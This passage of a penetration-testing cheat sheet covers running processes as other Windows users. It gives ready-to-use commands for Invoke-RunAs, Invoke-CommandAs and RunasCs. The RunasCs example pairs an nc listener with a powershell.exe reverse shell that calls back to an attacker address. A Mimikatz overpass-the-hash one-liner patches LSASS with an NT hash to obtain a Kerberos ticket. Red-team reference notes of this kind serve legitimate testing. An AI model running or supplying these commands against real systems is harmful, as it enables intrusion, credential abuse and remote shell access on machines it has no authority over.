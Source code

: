* [https://github.com/BC-SECURITY/Empire/blob/master/data/module_source/management/Invoke-RunAs.ps1](https://github.com/BC-SECURITY/Empire/blob/master/data/module_source/management/Invoke-RunAs.ps1)

```
PS > Invoke-RunAs -UserName snovvcrash -Password 'Passw0rd!' -Domain MEGACORP -Cmd cmd.exe -Arguments "/c ping -n 1 10.10.13.37"
```

##### Invoke-CommandAs

* [https://github.com/mkellerman/Invoke-CommandAs/blob/master/Invoke-CommandAs/Private/Invoke-ScheduledTask.ps1](https://github.com/mkellerman/Invoke-CommandAs/blob/master/Invoke-CommandAs/Private/Invoke-ScheduledTask.ps1)
* [https://github.com/mkellerman/Invoke-CommandAs/blob/master/Invoke-CommandAs/Public/Invoke-CommandAs.ps1](https://github.com/mkellerman/Invoke-CommandAs/blob/master/Invoke-CommandAs/Public/Invoke-CommandAs.ps1)
* [https://malicious.link/post/2020/run-as-system-using-evil-winrm/](https://malicious.link/post/2020/run-as-system-using-evil-winrm/)

```
PS > . .\Invoke-ScheduledTask.ps1
PS > . .\Invoke-CommandAs.ps1
PS > Invoke-CommandAs -ScriptBlock {whoami} -AsUser $cred
```

##### RunasCs

* [https://github.com/antonioCoco/RunasCs/blob/master/Invoke-RunasCs.ps1](https://github.com/antonioCoco/RunasCs/blob/master/Invoke-RunasCs.ps1)

```
$ rlwrap nc -lvnp 1337
PS > Invoke-RunasCs -Username snovvcrash -Password 'Passw0rd!' -Domain megacorp.local -Command powershell.exe -Remote 10.10.13.37:1337
```



### Mimikatz

* [https://github.com/GhostPack/Rubeus#example-over-pass-the-hash](https://github.com/GhostPack/Rubeus#example-over-pass-the-hash)
* [https://s3cur3th1ssh1t.github.io/Named-Pipe-PTH/](https://s3cur3th1ssh1t.github.io/Named-Pipe-PTH/)

Create a new process with dummy creds ([Logon type 9](https://ss64.com/nt/syntax-logon-types.html)), opens the LSASS process and patch it with the supplied NT hash. This causes the normal Kerberos authentication process to kick off as normal as if the user had normally logged on, turning the supplied hash into a fully-fledged TGT (Overpass-the-Hash):

```
Cmd > .\mimikatz.exe "privilege::debug" "token::elevate" "sekurlsa::pth /user:snovvcrash /domain:megacorp.local /run:c:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe /ntlm:fc525c9683e8fe067095ba2ddc971889" "exit"
```



### Rubeus
